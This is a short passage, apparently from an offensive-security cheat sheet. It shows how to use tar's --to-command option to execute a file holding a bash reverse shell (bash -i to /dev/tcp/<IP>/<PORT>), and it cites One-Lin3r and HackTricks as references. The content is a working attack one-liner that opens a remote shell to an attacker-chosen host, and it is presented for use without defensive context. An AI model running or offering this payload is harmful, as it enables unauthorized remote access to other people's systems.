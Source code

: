 # Tarball

```
$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<IP>/<PORT> 0>&1' > implant.sh
tar -cvf implant.tar implant.sh
sudo -u $USER tar -xvf implant.tar --to-command /bin/bash
```

---
## References

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/shells/shells/linux.html)